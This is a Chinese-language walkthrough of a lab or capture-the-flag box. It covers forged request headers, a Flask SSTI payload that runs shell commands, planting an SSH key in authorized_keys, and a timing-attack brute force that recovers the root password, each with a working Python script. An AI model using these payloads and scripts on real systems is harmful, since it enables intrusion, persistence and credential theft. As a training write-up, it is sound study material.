## information collect

> 端口扫描

端口存活：22、8080



> 8080



flask应用，很容易联想到Werkzeug的/console控制台(前提：debug=true)

进行路径扫描，没有获取到信息，回到网页，观察到出题人给了两个hint



看上去，一个是路由，另一个是某个参数的键值

访问路由/stream



这里已经有提示信息了，那个`StreamClient`应该在请求头

请求头常规类型不算太多，在尝试过程中，我看了下响应头，就明白这里的`StreamClient`应该是`User-Agent`的键值



当我提交上去后，这里挑战似乎没有成功，然后在响应头中有新的hint信息



观察了下，不管是`X-Token`还是`X-Sign`，都很像Header里的键，我是拿`X-Forward-For`类比的

然后按照这里的顺序提示，我需要先写`X-Token`，后写`X-Sign`

不晓得对应的键值是什么，问题不大，我全拿123456占位了，说不定响应头能提供新的提示？



看上去，是X-Token有问题，它的值应该是`username:timestamp`的base64编码

时间戳也许是我生成token时的Unix时间，就是响应头里的Date，这里我选择写个小脚本计算并发包(Unix的量级有点小，我害怕手动改数据发包会导致校验失败)

```python
import base64
import time

import requests

url = "http://192.168.1.154:8080/stream"
ts = int(time.time())
username = "StreamClient"  # 我也不知道username是啥，但是感觉User-Agent这个有点贴近
raw = f"{username}:{ts}"
token = base64.b64encode(raw.encode()).decode()

headers = {
    "User-Agent": username,
    "X-Token": token,
    "X-Sign": "13465",
}
resp = requests.get(url, headers=headers, stream=True)
for line in resp.iter_lines():
    print(line)
print(resp.headers)

```



X-Token检验通过，就剩下一个X-Sign了，根据hint，它的计算公式是：`SHA256(X-Token+timestamp)[:12]`

改动了好几版代码，这是最终版本的

```python
import base64
import hashlib
import time

import requests

url = "http://192.168.1.154:8080/stream"
ts = int(time.time())
username = "StreamClient"  # 我也不知道username是啥，但是感觉User-Agent这个有点贴近
raw = f"{username}:{ts}"
token = base64.b64encode(raw.encode()).decode()
sign_raw = f"{raw}:{ts}"  # 按照hint,这里的token应该是X-Token吧，但是提交失败，我就尝试了raw，成功了
sign = hashlib.sha256(sign_raw.encode()).hexdigest()[:12]
headers = {
    "User-Agent": username,
    "X-Token": token,
    "X-Sign": sign,
}
resp = requests.get(url, headers=headers, stream=True)
for line in resp.iter_lines():
    print(line)
print(resp.headers)

```



> 感觉这里略微美中不足的地方是sign的公式中，不应该直接用X-Token，有点容易误导，也许直接写Token_raw，效果会好点

这个输出有点点奇怪，一个key，然后五个密文，它们都有点像base64编码（最后那个绝对不可能是十六进制，字符w就超了字符集）

简单编码加密里，感觉xor可以出现在这里，毕竟其它密文长度都太小了，不太可能是常见的分组密码

```python
import base64

key_b64 = "tBJ3SBQk0aA="
key = base64.b64decode(key_b64)

data_b64_list = [
    "3HcbJA==",
    "2z5XGw==",
    "wGASKQ==",
    "2VEbIQ==",
    "0XwD"
]

def xor(data, key):
    return bytes([data[i] ^ key[i % len(key)] for i in range(len(data))])

result = b""

for part in data_b64_list:
    enc = base64.b64decode(part)
    dec = xor(enc, key)
    result += dec

print(result.decode(errors="ignore"))
```

这是输出：`hello, StreamClient`

就没了？这里还需要结合flask框架分析，考察flask的时候，SSTI模板注入是常考的点

先回忆下当前我们做的所有操作中，哪些行为是可控的？不难找，就是那个username，它并不固定，这也能解释上面xor结果里出现我前面放置的User-agent的值，下面我用最带有标志性的语句进行测试：{{7*7}},正常来说，如果真的存在ssti注入，得到的结果一定是49

单纯改username即可，我顺手把解密xor部分也合并下，体验不错的一把梭脚本

```python
import base64
import hashlib
import time

import requests
from pwn import *


def xor_decrypt(data: bytes, key: bytes) -> bytes:
    return bytes([data[i] ^ key[i % len(key)] for i in range(len(data))])


def build_headers():
    ts = int(time.time())
    username = "{{ self.__init__.__globals__.__builtins__.__import__('os').popen('id').read() }}"  # 可以执行任意命令的payload，之前我使用{{7*7}}进行测试，结果确实是49

    raw = f"{username}:{ts}"
    token = base64.b64encode(raw.encode()).decode()

    sign_raw = f"{raw}:{ts}"
    sign = hashlib.sha256(sign_raw.encode()).hexdigest()[:12]

    headers = {
        "User-Agent": "StreamClient",
        "X-Token": token,
        "X-Sign": sign,
    }
    return headers


def parse_stream(resp):
    key = None
    enc_list = []

    for line in resp.iter_lines():
        if not line:
            continue

        line = line.decode(errors="ignore")
        log.info(f"recv: {line}")

        # 提取 KEY
        if "[KEY]" in line:
            key_b64 = line.split("[KEY]")[-1].strip()
            key = base64.b64decode(key_b64)
            log.success(f"key = {key}")

        # 提取 DATA
        elif "[DATA]" in line:
            data_b64 = line.split("[DATA]")[-1].strip()
            enc_list.append(base64.b64decode(data_b64))

        # 结束
        elif "Stream finished" in line:
            break

    return key, enc_list


def main():
    url = "http://192.168.1.154:8080/stream"

    headers = build_headers()

    log.info("sending request...")
    resp = requests.get(url, headers=headers, stream=True)

    key, enc_list = parse_stream(resp)

    if not key:
        log.failure("no key found")
        return

    result = b""
    for chunk in enc_list:
        result += xor_decrypt(chunk, key)

    log.success(f"result: {result.decode(errors='ignore')}")


if __name__ == "__main__":
    main()

```

我刚刚在里面内置了执行命令用的继承链：`{{ self.__init__.__globals__.__builtins__.__import__('os').popen('id').read() }}`，运行成功了，主要是出题人并没有设置jail，可以直接打



## get shell

任意命令执行，我索性把ssh公钥写入，跳过反弹shell的稳固以及后续重连要重复ssti等操作

```python
    username = "{{ self.__init__.__globals__.__builtins__.__import__('os').popen('cd ~&& mkdir -p .ssh&& cd .ssh&& echo \"ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIAiu1bLnLuwgLW0HAdb3N4NlmQwtMqcETzRdT8KGY7Vs kali@kali\" > authorized_keys&& chmod 600 authorized_keys').read() }}" 

```



登录的时候看到一句hint,说root的密码是32位字符，所以嘞？

## to root

提权的时候，我几乎将所有可能的信息搜集完了，没有找到合适的用来提权的方案，但是，我在/opt下看到一个有意思的文件



这里的app.py就是本靶机的入口，就不再做分析了，倒是这里的app2.py有点特殊，它完全属于root,我读不了，结合这个文件名，我感觉它应该也是某种http服务文件吧，当时爆破端口的时候，就找到两个外部能通的，那么这个app2.py大概率就只监听本地了

使用`ss -tuln`，效果不错



这个app2.py十有八九就监听的本地5000端口，尝试连接交互

这里说的还挺直白，它只接收post请求，参数为key，成功会返回200，失败就是401



再结合刚连接lnnn的时候，说root的密码长度为32位，这里同样检测key的值，我怀疑这里的key就是root的密码，然后我一共要爆破32轮字符，停止边界就是32位

有测通信道的味道

我们需要先找到32位密码以内的成功或失败条件，通常会以时间为标志，结合ai一起做了好多统计分析，发现一点，如果某一位是正确的，real就会变大(噪声好大，有的时候得多次请求)



总结下，如果某一位是对的，它的时间是相对其它结果来说会偏大,这不难理解，第i位是对的，但第i+1位是错的，那么第i+1乘上某个固定系数可以控制时长稳定提升

那么我爆破的时候，每次选最大的那个选项，至于最后一个字符的话，不用进行测通信，直接看状态码是否是200即可

```python
import urllib.request
import urllib.parse
import urllib.error
import time
import statistics

URL = "http://127.0.0.1:5000/"
KEY_LEN = 32
CHARSET = "0123456789abcdef"

# ---------------------------
# 发请求 + 计时
# ---------------------------
def post(key):
    data = urllib.parse.urlencode({"key": key}).encode()

    req = urllib.request.Request(
        URL,
        data=data,
        method="POST"
    )

    start = time.perf_counter()

    try:
        with urllib.request.urlopen(req) as r:
            r.read()
            status = r.status
    except urllib.error.HTTPError as e:
        status = e.code
        try:
            e.read()
        except:
            pass

    end = time.perf_counter()

    return end - start, status


# ---------------------------
# 稳定测量（用于 timing）
# ---------------------------
def measure(key, rounds=6):
    samples = []
    for _ in range(rounds):
        t, _ = post(key)
        samples.append(t)
    return statistics.median(samples)


# ---------------------------
# 主逻辑
# ---------------------------
known = ""

for pos in range(KEY_LEN):
    print(f"\n[+] Position {pos}")

    # -----------------------
    # 最后一位：用 status oracle
    # -----------------------
    if pos == KEY_LEN - 1:
        for c in CHARSET:
            guess = known + c

            _, status = post(guess)

            print(f"  try {c} -> HTTP {status}")

            if status == 200:
                known += c
                print(f"[+] FINAL CHAR FOUND: {c}")
                break

        break

    # -----------------------
    # 前31位：timing attack
    # -----------------------
    best_char = None
    best_time = -1

    for c in CHARSET:
        guess = (known + c).ljust(KEY_LEN, "0")

        t = measure(guess, rounds=6)

        print(f"  try {c} -> {t:.6f}s")

        if t > best_time:
            best_time = t
            best_char = c

    known += best_char
    print(f"[+] Known so far: {known}")


print("\n[+] FINAL KEY:", known)
```

找到了



直接切换root


